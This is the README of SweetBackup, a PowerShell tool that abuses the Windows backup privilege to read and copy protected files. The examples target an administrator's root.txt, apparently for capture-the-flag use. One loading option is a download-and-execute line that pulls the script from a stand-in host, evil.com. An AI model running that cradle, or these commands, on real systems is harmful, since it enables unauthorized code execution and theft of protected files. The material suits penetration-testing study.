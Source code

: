 # SweetBackup

SweetBackup is a PowerShell version of [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege), some commands are identically named. It was written with PSReflect (and [PSReflect-Functions](https://github.com/jaredcatkinson/PSReflect-Functions)) for PInvoke to avoid any artifacts and its PowerShell v2 compliant.

Usage
=====================

Import the script
-----------------

* <code>PS> Import-Module .\SweetBackup.ps1</code>

* <code>PS> . .\SweetBackup.ps1</code>

* <code>PS> IEX (New-Object System.Net.WebClient).DownloadString('https://evil.com/SweetBackup.ps1')</code>

Available commands
-----------------

* Retreive status of SeBackupPrivilege access token: <code>Get-SeBackupPrivilege</code>
 
* Enable SeBackupPrivilege: <code>Set-SeBackupPrivilege</code>

* Read content of a file: <code>Read-FileContent -Backup -Path C:\Users\Administrator\Desktop\root.txt ;)</code>

* Set content of a file: <code>Set-FileContent -Path .\hello.txt -Content "hello"</code>

* Add content to a file: <code>Add-FileContent -Path .\hello.txt -Content "$([System.Environment]::NewLine)hello"</code>

* Copy a file: <code>Copy-File -Path C:\Users\Administrator\Desktop\root.txt -Destination .\root.txt -Backup</code>

The -Backup flag indicates if SeBackupPrivilege need to be used.

Future changes
=====================

I don't really have idea about how to improve this small project, but if you have, feel free raise an issue or propose a pull requests !
